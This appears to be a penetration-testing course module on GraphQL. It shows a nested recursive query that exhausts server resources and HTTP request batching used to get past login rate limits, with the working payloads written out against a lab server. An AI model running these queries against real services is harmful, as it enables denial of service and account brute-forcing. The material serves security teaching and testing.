



# Denial-of-Service (DoS) & Batching Attacks

---

Depending on the GraphQL API's configuration, we can create queries that result in exponentially large responses, requiring significant resources to process. Such queries can lead to high hardware utilization on the backend system, potentially leading to a DoS scenario that limits the service's availability to other users.

---

## Denial-of-Service (DoS) Attacks

To execute a DoS attack, we must identify a way to construct a query that results in a large response. Let's look at the visualization of the introspection results in `GraphQL Voyager`. We can identify a loop between the `UserObject` and `PostObject` via the `author` and `posts` fields:

https://graphql-kit.com/graphql-voyager/


We can abuse this loop by constructing a query that queries the author of all posts. For each author, we then query the author of all posts again. If we repeat this many times, the result grows exponentially larger, potentially resulting in a DoS scenario.

Since the `posts` object is a `connection`, we need to specify the `edges` and `node` fields to obtain a reference to the corresponding `Post` object. As an example, let us query the author of all posts. From there, we will query all posts by each author and then the author's username for each of these posts:

```
        graphql
{
  posts {
    author {
      posts {
        edges {
          node {
            author {
              username
            }
          }
        }
      }
    }
  }
}
```

This is an infinite loop we can repeat as many times as we want. If we take a look at the result of this query, it is already quite large because the response grows exponentially larger with each iteration of the loop we query:

http://<SERVER\_IP>:<PORT>/graphql



Making our initial query large will significantly slow down the server, potentially causing availability issues for other users. For instance, the following query crashes the `GraphiQL` instance:

```
        graphql
{
  posts {
    author {
      posts {
        edges {
          node {
            author {
              posts {
                edges {
                  node {
                    author {
                      posts {
                        edges {
                          node {
                            author {
                              posts {
                                edges {
                                  node {
                                    author {
                                      posts {
                                        edges {
                                          node {
                                            author {
                                              posts {
                                                edges {
                                                  node {
                                                    author {
                                                      posts {
                                                        edges {
                                                          node {
                                                            author {
                                                              posts {
                                                                edges {
                                                                  node {
                                                                    author {
                                                                      username
                                                                    }
                                                                  }
                                                                }
                                                              }
                                                            }
                                                          }
                                                        }
                                                      }
                                                    }
                                                  }
                                                }
                                              }
                                            }
                                          }
                                        }
                                      }
                                    }
                                  }
                                }
                              }
                            }
                          }
                        }
                      }
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}
```

http://<SERVER\_IP>:<PORT>/graphql



---

## Batching Attacks

Batching in GraphQL refers to executing multiple queries with a single request. We can do so by directly supplying multiple queries in a JSON list in the HTTP request. For instance, we can query the ID of the user `admin` and the title of the first post in a single request:

```
        http
POST /graphql HTTP/1.1
Host: 172.17.0.2
Content-Length: 86
Content-Type: application/json

[
    {
        "query":"{user(username: \"admin\") {uuid}}"
    },
    {
        "query":"{post(id: 1) {title}}"
    }
]
```

The response contains the requested information in the same structure we provided the query in:



Batching is not a security vulnerability but an intended feature that can be enabled or disabled. However, batching can lead to security issues if GraphQL queries are used for sensitive processes such as user login. Since batching enables an attacker to provide multiple GraphQL queries in a single request, it can potentially be used to conduct brute-force attacks with significantly fewer HTTP requests. This could lead to bypasses of security measures in place to prevent brute-force attacks, such as rate limits.

For instance, assume a web application uses GraphQL queries for user login. The GraphQL endpoint is protected by a rate limit, allowing only five requests per second. An attacker can brute-force user accounts at a rate of only five passwords per second. However, using GraphQL batching, an attacker can put multiple login queries into a single HTTP request. Assuming the attacker constructs an HTTP request containing 1000 different GraphQL login queries, the attacker can now brute-force user accounts with up to 5000 passwords per second, rendering the rate limit ineffective. Thus, GraphQL batching can enable powerful brute-force attacks.
